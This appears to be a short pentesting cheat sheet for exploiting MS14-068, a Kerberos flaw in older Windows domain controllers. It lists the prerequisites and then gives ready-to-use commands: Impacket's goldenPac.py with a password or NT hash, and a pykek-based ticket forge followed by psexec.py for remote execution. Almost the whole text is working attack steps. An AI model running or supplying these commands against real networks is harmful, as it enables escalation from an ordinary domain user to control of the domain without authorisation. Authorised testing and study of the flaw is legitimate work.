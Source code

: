 
# MS 14-068

Required: 
 - Domain user credentials
 - Connection to DC
 - Kerberos port open (is a kerberos vuln)
 - Vulnerable Windows server 2008 R2 or older...
<br>

### Option 1 (Impacket):
from impacket suite:

`goldenPac.py '<domain>/<user>:<password>@<machine.domain>'` or

`goldenPac.py  '<domain>/<user>:@<machine.domain>' -hashes :'NThash'`

IMPORTAN NOTE: When using Impacket (and others) tools that autenticates against kerberos avoid setting a numeric IP direction. Use machine.domain format, and adjust your /etc/hosts to make sure it find the correct IP. 

source: https://tools.thehacker.recipes/impacket/examples/goldenpac.py

<br>

### Option 2 (pykek):

You can use pykek from original repo (python2). -> https://github.com/mubix/pykek

Or, if only python3 is possible use my adaptation for python3. -> https://github.com/ArtesOscuras/Tools/blob/main/pykek_ms14-068_python3.zip

Extract user sid from ldap or rpc.

`python3 ms14-068.py -u '<user>'@'<domain>' -p '<password>' -s "<user SID>" -d "<ip>"`

Export ccache file -> `export KRB5CCNAME=TGT_ticket...ccache`

`psexec.py '<domain>/<user>:@<machine.domain>' -no-pass -k`
